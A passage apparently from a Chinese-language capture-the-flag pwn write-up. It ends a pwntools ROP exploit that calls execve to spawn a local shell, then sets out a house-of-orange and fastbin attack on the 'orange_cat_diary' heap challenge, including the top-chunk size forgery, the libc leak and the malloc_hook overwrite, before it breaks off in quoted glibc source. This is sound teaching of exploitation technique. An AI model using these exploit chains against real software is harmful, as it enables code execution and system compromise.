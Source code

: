 ```python
# 在addr处写字符串
payload = b'\x00'*464 + p64(rax) + p64(0x0) + p64(rdi) + p64(0) + p64(0)*5 + p64(rsi) + p64(addr) + p64(rdx) + p64(0x30) + p64(syscall)
# 将addr处的字符串作为参数执行sys-execv
payload+= p64(rax) + p64(0x3b) + p64(rdi) + p64(addr) + p64(0)*5 + p64(rsi) + p64(0) + p64(rdx) + p64(0) + p64(syscall)

p.sendlineafter(b'Input your magic message :',payload)

p.recvuntil(b'Your magic message :')
p.sendline(b'/bin/sh\x00')

p.interactive()

```

## orange_cat_diary
### 分析
house of orange + fastbin attack

一道堆菜单题，但是限制了show和delete的次数
每次add操作后申请的堆内存无编号，都是针对ptr的操作
edit函数内可以多写8个字节，可以改写下一个chunk的size

### 思路
1. 通过edit溢出修改top_chunk的size，然后通过申请较大的chunk调用sysmalloc函数中的_int_free将原top chunk置入unsorted bin(这是house of orange的攻击手法)
2. 通过show泄露unsorted bin的bk指针，这个指针会指向main_arena结构体内部的一个成员，通过main_arena与libc的偏移泄露libc基址
3. 通过伪造chunk进行fastbin attack将堆分配到malloc_hook位置，写上one_gadget
4. 再次调用malloc即可获取shell

#### 修改top chunk的size
关于修改top chunk的size，需要修改后的top chunk的满足以下几个条件
1. 伪造的 size 必须要对齐到内存页
2. size 要大于 MINSIZE(0x10)
3. size 要小于之后申请的 chunk size + MINSIZE(0x10)
4. size 的 prev inuse 位必须为 1

对齐到内存页，即size(no_flag_bit)大小需要为2* SIZE_SZ的整数倍
所以我们修改top chunk的size为0xf91(0b1111 1001 0001)
0xf91最后一位为PRE_INUSE，去掉flag_bit最后4位为零（即满足对齐到内存页），并且大于0x10且小于我们要申请的0x1000

所以可以修改为0xf91

#### 计算main_arena与libc基址的偏移
关于如何计算main_arena与libc的偏移，main_arena是一个全局变量，这里有两种思路可以得知main_arena在libc中的偏移
1. 利用malloc_trim函数，这个函数会访问main_arena，可以通过这个函数在ida中找到偏移
```c
int
__malloc_trim (size_t s)
{
  int result = 0;

  if (__malloc_initialized < 0)
    ptmalloc_init ();

  mstate ar_ptr = &main_arena;//<=here!
  do
    {
      __libc_lock_lock (ar_ptr->mutex);
      result |= mtrim (ar_ptr, s);
      __libc_lock_unlock (ar_ptr->mutex);

```